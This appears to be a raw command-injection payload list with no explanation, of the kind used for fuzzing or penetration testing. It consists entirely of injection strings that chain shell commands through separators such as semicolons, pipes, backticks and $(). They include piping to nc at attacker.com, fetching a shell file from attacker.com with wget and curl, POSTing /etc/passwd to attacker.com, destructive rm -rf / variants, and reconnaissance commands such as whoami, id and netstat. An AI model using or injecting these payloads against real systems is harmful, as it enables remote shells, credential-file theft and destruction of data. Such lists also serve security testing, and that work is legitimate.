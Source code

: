 ; ping -c 4 example.com
| nc attacker.com 1234
$(wget -O /tmp/shell http://attacker.com/shell.txt)
`rm -rf /`
; rm -rf /*
| rm -rf /*
$(rm -rf /*)
; curl -X POST -d @/etc/passwd http://attacker.com
| curl -X POST -d @/etc/passwd http://attacker.com
$(curl -X POST -d @/etc/passwd http://attacker.com)
`echo 'exploited' > /tmp/exploit.txt`
; echo 'exploited' > /tmp/exploit.txt
| echo 'exploited' > /tmp/exploit.txt
$(echo 'exploited' > /tmp/exploit.txt)
; wget http://attacker.com/shell.txt -O /tmp/shell.txt
| wget http://attacker.com/shell.txt -O /tmp/shell.txt
$(wget http://attacker.com/shell.txt -O /tmp/shell.txt)
; curl http://attacker.com/shell.txt -o /tmp/shell.txt
| curl http://attacker.com/shell.txt -o /tmp/shell.txt
$(curl http://attacker.com/shell.txt -o /tmp/shell.txt)
`cat /etc/passwd`
; cat /etc/passwd
| cat /etc/passwd
$(cat /etc/passwd)
; cp /etc/passwd /tmp/passwd_copy
| cp /etc/passwd /tmp/passwd_copy
$(cp /etc/passwd /tmp/passwd_copy)
`ls -la /var/www/html`
; ls -la /var/www/html
| ls -la /var/www/html
$(ls -la /var/www/html)
; echo 'Hello, World!'
| echo 'Hello, World!'
$(echo 'Hello, World!')
`whoami`
; whoami
| whoami
$(whoami)
; id
| id
$(id)
; uname -a
| uname -a
$(uname -a)
; ifconfig
| ifconfig
$(ifconfig)
; netstat -an
| netstat -an
$(netstat -an)
; ps aux
| ps aux
$(ps aux)
; ls
; cat /etc/passwd
| ls
| cat /etc/passwd
$(ls)
$(cat /etc/passwd)
`ls`
`cat /etc/passwd`
;ls
;cat /etc/passwd
|ls
|cat /etc/passwd
&& ls
&& cat /etc/passwd
| ls
| cat /etc/passwd
|| ls
|| cat /etc/passwd
;& ls
;& cat /etc/passwd
| ls
| cat /etc/passwd
& ls
& cat /etc/passwd
; ls #
; cat /etc/passwd #
| ls #
| cat /etc/passwd #
&& ls #
&& cat /etc/passwd #
| ls #
| cat /etc/passwd #
|| ls #
|| cat /etc/passwd #
;& ls #
;& cat /etc/passwd #
| ls #
| cat /etc/passwd #
& ls #
& cat /etc/passwd #
; $(ls)
; $(cat /etc/passwd)
| $(ls)
| $(cat /etc/passwd)
&& $(ls)
&& $(cat /etc/passwd)